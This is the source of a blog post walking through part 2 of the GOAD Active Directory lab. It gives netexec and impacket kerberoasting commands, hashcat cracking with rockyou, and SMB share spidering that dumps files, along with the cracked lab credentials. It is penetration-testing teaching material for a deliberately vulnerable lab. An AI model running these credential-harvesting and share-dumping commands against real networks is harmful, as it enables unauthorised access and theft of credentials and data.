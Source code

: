 ```yaml
---
title: "GOAD Part 2: Domain Enumeration "
author: "Trevor Saudi"
date: 2024-10-14
description: ""
draft: false
subtitle: ""
tags:
- Active Directory
- Pentesting
---
```


<style>



@import url('https://cdn.rawgit.com/lonekorean/gist-syntax-themes/d49b91b3/stylesheets/one-dark.css');

@import url('https://fonts.googleapis.com/css?family=Open+Sans');


   
  *, ::before, ::after {
    border-style: none;
    font: 16px;

  }

  body {
  margin: 20px;
  font: 16px 'Open Sans', sans-serif;
}

.center { 
       display:inline-block; 
       margin-left: 60px; 
       margin-top: -20px;
}

</style>



## Introduction

- In the previous walkthrough we exploited various misconfigurations and obtained some valid domain user credentials.
- With valid credentials, we can perform more enumeration using tools like bloodhound and also explore various attacks such as kerberoasting.
 We will explore kerberoasting and domain enumeration using bloodhound.....


### Kerberoasting in the north domain

 ![image](/posts/2024-10-10_red_team08/images/kerberoasting.png)

- With our valid credentials we can try and abuse kerberoasting to obtain more credential material that can grant further access to systems and data. 

- Kerberoasting involves attempting to crack passwords of service accounts by exploiting the Kerberos authentication protocol. 
- We obtain service tickets associated with these accounts and then perform offline password cracking.
- Using netexec:

```bash
nxc ldap 192.168.56.11 -u brandon.stark -p 'iseedeadpeople' -d north.sevenkingdoms.local --kerberoasting KERBEROASTING
```

 ![image](/posts/2024-10-10_red_team08/images/kerberoasting3.png)


- Using impacket:

```python
impacket-GetUserSPNs -request -dc-ip 192.168.56.11 north.sevenkingdoms.local/brandon.stark:iseedeadpeople
```
 ![image](/posts/2024-10-10_red_team08/images/kerberoasting2.png)

- We obtain 3 kerberoastable users: sansa.stark, jon.snow and sql_svc

#### Cracking with hashcat



- Running hashcat in the following mode with a rockyou password list:

 ![image](/posts/2024-10-10_red_team08/images/kerberoasting5.png)

- we get the plaintext credentials of the jon.snow user.

```python
hashcat -m 13100 -a 0 KERBEROASTING /usr/share/wordlists/rockyou.txt.gz
```
 ![image](/posts/2024-10-10_red_team08/images/kerberoasting4.png)


{{< alert "circle-info" >}}
jon.snow: iknownothing
{{< /alert >}}


### Spidering and Dumping Shares

 ![image](/posts/2024-10-10_red_team08/images/shares2.png)


- Check for shares and permissions on them

```python
 nxc smb 192.168.56.10-23 -u jon.snow -p iknownothing -d north.sevenkingdoms.local --shares

```

 ![image](/posts/2024-10-10_red_team08/images/shares.png)


- Dump all files from all the readable shares

```python
 nxc smb 192.168.56.10-23 -u jon.snow -p iknownothing -d north.sevenkingdoms.local -M spider_plus -o DOWNLOAD_FLAG=TRUE
```

 ![image](/posts/2024-10-10_red_team08/images/spider.png)

- We have a couple of interesting dumped files 

 ![image](/posts/2024-10-10_red_team08/images/crt.png)

 - We discover credentials to jeor.mormont user.

 ![image](/posts/2024-10-10_red_team08/images/creds.png)


{{< alert "circle-info" >}}
jeor.mormont: \_L0ngCl@w\_

{{< /alert >}}


 ![image](/posts/2024-10-10_red_team08/images/jeor.png)


